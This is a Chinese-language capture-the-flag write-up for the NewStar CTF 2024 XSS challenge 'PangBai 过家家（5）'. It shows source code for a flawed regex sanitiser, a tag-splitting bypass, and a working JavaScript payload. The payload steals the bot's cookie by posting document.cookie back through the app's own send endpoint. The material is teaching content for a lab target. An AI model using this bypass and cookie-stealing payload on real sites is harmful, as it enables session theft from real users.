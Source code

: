 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```

<script setup>
import Container from '@/components/docs/Container.vue'
</script>

# PangBai 过家家（5）

<Container type="info">

本题已开源，关于题目源码和 EXP，详见：[cnily03-hive/PangBai-XSS](https://github.com/cnily03-hive/PangBai-XSS)
</Container>

这是一题 XSS 题。XSS 题目的典型就是有一个 Bot，flag 通常就在这个 Bot 的 Cookie 里面。

XSS 的全称是跨站脚本攻击，存在这种攻击方式的原因是，用户访问到的网页内容并不是服务端期望的那样，可能存在恶意的代码。例如，你点击一个网页链接，但是它却执行了攻击者的前端 JavaScript 代码，将你的登录凭据、隐私信息发送给攻击者。在 XSS 题中，Bot 就承担这个受害者用户。

题目有一个发件的路由，还有一个查看信件的路由，以及一个「提醒 PangBai」的按钮，这个按钮实际就是让 Bot 访问查看当前信件的路由。

我们要做的就是找到一处能够展示我们的输入的地方，想办法使内容展示之后，浏览器能够执行我们恶意的 JavaScript 代码。这样，如果让 Bot 去访问这个 URL，恶意代码就会在 Bot 的浏览器执行，我们的恶意代码可以执行获取 Cookie 等操作。

从 `bot.ts` 可见，FLAG 在 Cookie 中：

```typescript
await page.setCookie({
    name: 'FLAG',
    value: process.env['FLAG'] || 'flag{test_flag}',
    httpOnly: false,
    path: '/',
    domain: 'localhost:3000',
    sameSite: 'Strict'
});
```

我们直接输入 `<script>alert(1)</script>` 做测试，访问查看信件的界面，查看源码，发现输入被过滤了。

跟踪附件中的后端源码，`page.ts` 中的 `/box/:id` 路由，会渲染我们的输入：

```typescript
router.get('/box/:id', async (ctx, next) => {
    const letter = Memory.get(ctx.params['id'])
    await ctx.render('letter', <TmplProps>{
        page_title: 'PangBai 过家家 (5)',
        sub_title: '查看信件',
        id: ctx.params['id'],
        hint_text: HINT_LETTERS[Math.floor(Math.random() * HINT_LETTERS.length)],
        data: letter ? {
            title: safe_html(letter.title),
            content: safe_html(letter.content)
        } : { title: TITLE_EMPTY, content: CONTENT_EMPTY },
        error: letter ? null : '找不到该信件'
    })
})
```

但是输入的内容都经过了 `safe_html` 过滤

```typescript
function safe_html(str: string) {
    return str
        .replace(/<.*>/igm, '')
        .replace(/<\.*>/igm, '')
        .replace(/<.*>.*<\/.*>/igm, '')
}
```

可见这只是一个正则替换，正则中各个标志的作用：

- `i` 标志：忽略大小写
- `g` 标志：全局匹配，找到所有符合条件的内容
- `m` 标志：多行匹配，每次匹配时按行进行匹配，而不是对整个字符串进行匹配<span data-desc>（与之对应的是 `s` 标志，表示单行模式，将换行符看作字符串中的普通字符）</span>

由于 `m` 的存在，匹配开始为行首，匹配结束为行尾，因此我们只需要把 `<` 和 `>` 放在不同行即可，例如：

```javascript
<script
>alert(1)</script
>
```

此时我们就能执行恶意代码了。直接使用 `document.cookie` 即可获取到 Bot 的 Cookie。
拿到 Cookie 之后，怎么回显呢？如果题目靶机是出网的，可以发送到自己的服务器上面；但是题目靶机并不出网，这时可以写一个 JavaScript 代码，模拟用户操作，将 Cookie 作为一个信件的内容提交（让 Bot 写信），这样我们就能查看到了。例如：

```javascript
<script
>
fetch('/api/send', {
    method: 'POST',
    headers: {'Content-Type': 'application/json'},
    body: JSON.stringify({'title': "Cookie", 'content': document.cookie})
})
</script
>
```

:::warning 注意

`fetch` 中的请求路径可以是相对路径、绝对路径等，因此上面忽略了 Origin，如果显示指定，必须和当前的 Origin 一样，否则存在跨域问题。从 bot.ts 中可以看到 Bot 访问的是 `http://localhost:3000`，因此使用 `http://127.0.0.1:3000` 是不行的。

把 Payload 提交之后，如果手动查看信件并点击「提醒 PangBai」，会触发两次 Payload，一次是你自己查看信件时触发的，一次是 Bot 触发的。

:::

提交并「提醒 PangBai」之后，稍等一会，查看信箱，就可以看到内容了。

![查看 flag_1](/assets/images/wp/2024/week5/pangbai5_1.png)

![查看 flag_2](/assets/images/wp/2024/week5/pangbai5_2.png)
